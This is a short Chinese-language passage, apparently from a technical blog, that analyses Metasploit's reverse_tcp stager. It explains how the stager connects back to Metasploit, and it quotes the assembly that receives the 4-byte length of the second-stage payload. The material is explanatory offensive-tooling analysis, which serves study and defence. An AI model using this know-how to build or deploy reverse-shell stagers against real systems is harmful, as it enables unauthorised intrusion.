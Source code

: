asm\_reverse\_tcp 函数中的汇编，大致有以下功能：加载 socket 相关 dll，创建 socket，绑定 ip 和端口，链接 metasploit。就是做一些接收 stage 前的工作，为调用 asm\_block\_recv 接收 stage 做准备。

## asm\_block\_recv 函数

![image.png](assets/1698893687-bd760f5516f889a4f8a8785cf3928a97.png)

首先调用 recv 函数接收 msf 发送过来的 4 字节数据，这 4 字节数据代表了即将发送过来的载荷的总大小。

```c
push 0 ; flags 
push 4 ; length = sizeof( DWORD ); 
push esi ; the 4 byte buffer on the stack to hold the second stage length 
push edi ; the saved socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
call ebp ; recv( s, &dwLength, 4, 0 );
```
